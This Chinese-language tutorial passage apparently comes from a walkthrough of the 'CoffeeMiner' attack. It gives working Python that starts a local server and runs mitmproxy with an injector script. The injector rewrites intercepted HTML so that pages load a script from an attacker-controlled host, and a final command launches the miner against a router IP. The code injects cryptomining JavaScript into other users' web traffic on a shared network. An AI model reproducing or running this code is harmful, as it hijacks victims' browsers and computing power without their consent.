 ```python
# start the http server for serving the script.js, in a new console
os.system("xterm -hold -e 'python3 httpServer.py' &")
# start the mitmproxy
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
在'injector.py'脚本中：
```python
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
    def __init__(self, path):
        self.path = path
    def response(self, flow: http.HTTPFlow) -> None:
        if self.path:
            html = BeautifulSoup(flow.response.content, "html.parser")
            print(self.path)
            print(flow.response.headers["content-type"])
            if flow.response.headers["content-type"] == 'text/html':
                print(flow.response.headers["content-type"])
                script = html.new_tag(
                    "script",
                    src=self.path,
                    type='application/javascript')
                html.body.insert(0, script)
                flow.response.content = str(html).encode("utf8")
                print("Script injected.")
def start():
    parser = argparse.ArgumentParser()
    parser.add_argument("path", type=str)
    args = parser.parse_args()
    return Injector(args.path)
```
要执行挖矿，只需要执行以下操作：
```python
> python3 coffeeMiner.py RouterIP
```

当然也可以手动运行.
